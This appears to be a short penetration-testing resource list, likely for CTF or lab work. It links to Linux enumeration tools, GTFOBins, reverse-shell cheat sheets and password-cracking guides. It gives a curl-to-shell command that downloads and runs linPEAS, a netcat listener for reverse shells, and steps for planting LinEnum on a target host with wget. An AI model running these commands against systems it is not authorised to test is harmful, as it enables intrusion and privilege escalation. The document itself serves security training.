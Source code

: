 # Ressources

## Local Linux Enumeration

> this section contains tools that are used to find potential attack vectors on a computer.

##### linPEAS :

    https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
> download with ```curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh```

##### LinEnum :

    https://github.com/rebootuser/LinEnum
> you can also find it [here](/ressources/)

## GTFOBins

BTFOBins is a website you can refer to if you find binaries that can be used to bypass local security restrictions in misconfigured systems.

> just seach the name of the binary in the search bar

    https://gtfobins.github.io/

## Cheat sheets

### Reverse shell :

   ##### PentestMonkey

    https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet


   ##### PayloadAllTheThings

    https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

   ##### ironHackers

    https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/


### Nmap :

    https://www.stationx.net/nmap-cheat-sheet/


### GoBuster :

    https://3os.org/penetration-testing/cheatsheets/gobuster-cheatsheet/
    
    
### John The Ripper :

    https://www.golinuxcloud.com/john-the-ripper-password-cracker/
    
    https://cheatsheet.haax.fr/passcracking-hashfiles/john_cheatsheet/
    
    
## Misc

### How do I start a netcat listener ?

```nc -lnvp PORT```

where :
    ```l``` is for "listen mode", ```n```is to not resolve DNS, ```v```is for verbose mode (more text printed), ```p``` to specify the port and ```PORT``` is the port you want to use
    
    
 ### How do I send LinEnum to the target machine ?
  
 - Download the executable from this repo, go the the directory where it's located and type ```python3 -m http.server 1234```
 - Open a terminal on your computer and type ```ifconfig```, find your ip adress.
 - On your target machine, type ```wget http://**YourIP**:1234/LinEnum.sh```

that's it ! you should have LinEnum on the target machine ;)
          
